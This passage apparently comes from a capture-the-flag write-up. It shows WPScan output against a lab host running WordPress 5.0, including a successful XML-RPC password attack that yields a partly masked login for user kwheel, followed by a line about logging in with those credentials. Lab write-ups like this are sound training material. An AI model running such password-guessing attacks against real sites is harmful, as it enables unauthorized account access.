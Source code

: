```bash
[+] The external WP-Cron seems to be enabled: http://10.10.255.89/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.255.89/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.255.89/, Match: 'WordPress 5.0'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:08 <===============> (137 / 137) 100.00% Time: 00:00:08

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 8 user/s
[SUCCESS] - kwheel / c*******1
Trying bjoel / 666666 Time: 00:01:02 <=====================> (114755136/ 114755136)  99.99%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: kwheel, Password: c*******1
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

we now know the username and password for the wordpress. the next step is to login in to the account with the gained credentials.
